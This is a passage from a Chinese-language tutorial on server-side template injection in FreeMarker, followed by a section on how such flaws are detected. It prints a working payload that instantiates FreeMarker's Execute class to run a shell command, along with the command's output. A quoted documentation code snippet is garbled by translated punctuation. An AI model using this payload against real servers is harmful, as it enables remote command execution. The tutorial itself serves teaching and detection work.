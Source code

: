 ${} 

就执行了。

#### **实例二：**

在2015年的blackhat 大会上曾讲述了Alfresco 的一个 SSTI 漏洞，不过很遗憾我没有找到源码，没能亲自分析，只能拿来payload 分析一下。

**实例代码：**

<#assign ex="freemarker.template.utility.Execute"?new()>  ${ ex("id") } 

**结果：**

uid=119(tomcat7) gid=127(tomcat7) groups=127(tomcat7)  

**解释：**
https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_new
经过我查阅上述freemarker 的文档，这里面的 ?new() 是其高级内置函数

**用法如下：**

```java
<＃ - 创建一个用户定义的指令，调用类的参数构造函数 - > 
<#assign word_wrapp =“com.acmee.freemarker.WordWrapperDirective”？new（）>
<＃ - 创建一个用户定义的指令，用一个数字参数调用构造函数 - >
<#assign word_wrapp_narrow =“com.acmee.freemarker.WordWrapperDirective”？new（40）> 
```

相当于是，调用了构造函数创建了一个对象，那么这个 payload 中就是调用的 freemarker 的内置执行命令的对象 Excute

## **0X05 检测方法**

同常规的 SQL 注入检测，XSS 检测一样，模板注入漏洞的检测也是向传递的参数中承载特定 Payload 并根据返回的内容来进行判断的。每一个模板引擎都有着自己的语法，Payload 的构造需要针对各类模板引擎制定其不同的扫描规则，就如同 SQL 注入中有着不同的数据库类型一样。

简单来说，就是更改请求参数使之承载含有模板引擎语法的 Payload，通过页面渲染返回的内容检测承载的 Payload 是否有得到编译解析，有解析则可以判定含有 Payload 对应模板引擎注入，否则不存在 SSTI。

**示意图如下：**

[![img](assets/1667436022979-ff0e95a2-a929-4a19-8a6a-6c153fecccd2.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/SSTI浅析-检测原理.png)
